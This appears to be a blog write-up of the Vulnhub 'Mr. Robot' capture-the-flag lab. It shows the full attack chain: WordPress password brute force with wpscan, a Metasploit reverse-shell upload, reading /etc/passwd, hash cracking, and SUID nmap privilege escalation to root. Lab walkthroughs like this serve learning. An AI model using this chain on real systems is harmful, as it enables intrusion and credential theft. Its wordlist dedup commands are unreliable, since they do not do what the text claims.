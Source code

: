 ```yaml
---
title: "Mr. Robot"
date: 2020-12-25T01:02:30-06:00
draft: false
author: "Golgothus"
description: "Vulnhub - Mr. Robot room."
summary: "Vulnhub - Mr. Robot write-up."
tags: ["Vulnhub","Linux","Privesc"]
featuredImage: "/images/city.jpg"
categories: ["Vulnhub"]
---
```

# Mr Robot

First Vulnhub box coming up in the books!

Kicking it off with [Mr. Robot](https://www.vulnhub.com/entry/mr-robot-1,151/). Being super new to a lot of the "open" systems that are vulnerable, I had a tough time learning how to segment my network in a way that would allow my attacking box to be on my hosts network, while also being able to attack the exploitable box which is operating in its own segemented network.

We will find out more about that short process in another post.

So how do we get in? My friends told me, you have to "break" your way in. Time to "know your enemy" or in this case, "exploit". I kick off the below nmap scan:

```bash
nmap -sV 10.10.0.0/24
```

I used the above range as I know that's the IP address range within which I set my vulnerable box to sit in.

I get an IP of 10.10.0.130, with the following ports showing as open:

```bash
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd
```

With this, we can tell that there *should* be a website open and running. Since both 80 and 443 are operable, let's check it out. I looked over 10.10.0.130/robots.txt after having visited the initial site we see a nice little screen with references to the show.

![Mr Robot site](/images/2020-10-04-21-30-50.png)

Having had previous experience with web apps and application security, I know one of the first places you should look, or at least look for, is robots.txt. Should I be damned, there is a robots.txt present which provides the following:

```bash
User-agent: *
fsocity.dic
key-1-of-3.txt
```

When you view the site for [key-1-of-3.txt](http://10.10.0.130/key-1-of-3.txt) we get the following flag:
073403c8a58a1f80d943455fb30724b9

## Now on to flag 2:

I ended up breaking out of the front page by going to site/question which came up with a wordpress hosted site. I see there's a login available at [http://10.10.0.130/wp-login.php](http://10.10.0.130/wp-login.php)

Now to try and get us a login!

Let's pull down our dictionary list if we haven't already, then my friends mentioned to run the following:

```bash
sort fsocity.dic
cat -n fsocity.dic | uniq > newDic.dic
```

The reason we did this was due to the initial .dic file has 850,000+ lines of "passwords". The above line(s) will go through and sort the lines alphabetically, we then take this list and pull out any duplicate lines, then output it into a new file so we leave our initial list untouched.

Now, onto exploitation! We know this is a WordPress site, let's check out WPScan.

```bash
wpscan --url 10.10.0.130
```

We see the version of WordPress listed as:
WordPress version 4.3.1 identified (Insecure, released on 2015-09-15)

However, my friends mentioned the following command set:

```bash
wpscan --url 10.10.0.130 -U elliot -P newDic.dic
```

This would perform a brute-force attack against the site using the newDic password list we obtained when we found flag 2.

We get the following information for elliot

|username|password|
|---|---|
|elliot|ER28-0652|

We go through and get our meterpreter session

```bash
msfconsole
search wordpress 4.3
use 80
```

The reason I am using exploit 80 - *unix/webapp/wp_admin_shell_upload* is we're aiming to get a reverse shell into the server hosts system.

Next we have to setup a few of our options, in this case it seems decently wise to run:

```bash
show advanced
```

I setup my options similar to the following:

|command|option|
|---|---|
|set rhost | 10.0.0.128 |
|set lhost | 10.0.0.129 | 
|set username | elliot |
|set password | ER28-0652 |


What ends up happening if we set our options as we have above, is we then get a check saying *Exploit aborted due to failure: not-found: The target does not appear to be using Wordpress*

When we run `show advanced` it gives us an option for *wpcheck*. Let's go ahead and set this as well.

|command|option|
|---|---|
|set wpcheck | false |

Now we can run our exploit.

```bash
exploit
```

Give it a short moment and we should then get the response that our Meterpreter sessions 1 is open.

It seems that we don't have a fully interactive shell yet for our session. Using the following resource from [ropnop.com](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) we ran the following lines.

```bash
shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

Where do we go from here? Let's check out some of the users in /etc/passwd/ see who all has a login shell at their disposal.

```bash
cat /etc/passwd
```

Looking through the list we see a few potential targets:

```bash
mysql:x:1001:1001::/home/mysql:
varnish:x:999:999::/home/varnish:
robot:x:1002:1002::/home/robot:
```

I ran `ls /home/` to see who all has an available and existing user directory and the only result turns out to be none other than the user *robot*.

Let's see what kind of useful information they have for our disposal.

We can see the flag file exists, but we don't have access due to us not actually having read permissions. However, we **are** able to see the contents for the password.raw-md5 file.

```bash
cd /home/robot
cat *
cat: key-2-of-3.txt: Permission denied
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Let's open up another tab in our terminal on our attacking system and run hashcat:

```bash
hashcat -m 0 c3fcd3d76192e4007dfb496cca67e13b /usr/share/wordlists/rockyou.txt
```

Inversely we could also use [crackstation](https://crackstation.net/). After a couple of moments the process completes and gives us the password for the user `robot`.

```bash
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
su robot
```

Type in the password, and let's open up the flag file to get flag number 2.

flag2 - 822c73956184f694993bede3eb39f959

## Flag 3 - Final one

To be honest, I had no idea where / how to work on getting some privilege escalation done in order to get us to root. One of my teammates suggested nmap.

We went through it and were able to get an interactive privileged session we could escape which allowed us to have a root owned shell.

Long story short, there's a SUID permission which we can use the following search to find:

```bash
find / -perm -u=s -type f 2>/dev/null
```

You can find more information on SUID permissions on the below site:
[https://pentestlab.blog/](https://pentestlab.blog/2017/09/25/suid-executables/)

An example they used was nmap. Easy enough to say, that's what we will be using here as well.

```bash
nmap --interactive
nmap> !sh
#whoami
root
#
```

Now where could that last flag be? 🤔 No place like home!

```bash
cat /root/*
```

flag3 - 04787ddef27c3dee1ee161b21670b4e4